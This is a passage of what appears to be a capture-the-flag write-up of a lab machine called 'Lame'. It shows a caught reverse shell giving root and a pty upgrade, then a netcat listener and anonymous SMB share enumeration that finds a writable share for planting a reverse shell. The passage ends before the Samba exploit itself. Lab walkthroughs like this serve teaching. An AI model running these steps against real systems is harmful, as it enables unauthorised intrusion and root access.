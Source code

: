 After a few seconds, I'll have a connection back on my listener. I am now root!

{{< highlight html >}}
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.3] 36182
whoami
root
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/#
{{< /highlight >}}

**Note**: flags are under /home and /root


### 2. Samba version 3.0.20-Debian

I can also exploit this vulnerability with Metasploit, but since the process is very simple I will do it manually.

I set up a listener on my machine:

{{< highlight html >}}
nc -nlvp 4447                                                                                                                                                 
listening on [any] 4447 ...
{{< /highlight  >}}

Now I have to list the victim SMB shares - I know I can do that from the Recon phase because the message-signing is disabled - and see if I have access somewhere where to put a reverse shell:

{{< highlight html >}}
smbclient -L 10.10.10.3
Enter WORKGROUP\lafxo's password:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
{{< /highlight  >}}

To see permissions:

{{< highlight html >}}
sudo smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
{{< /highlight  >}}
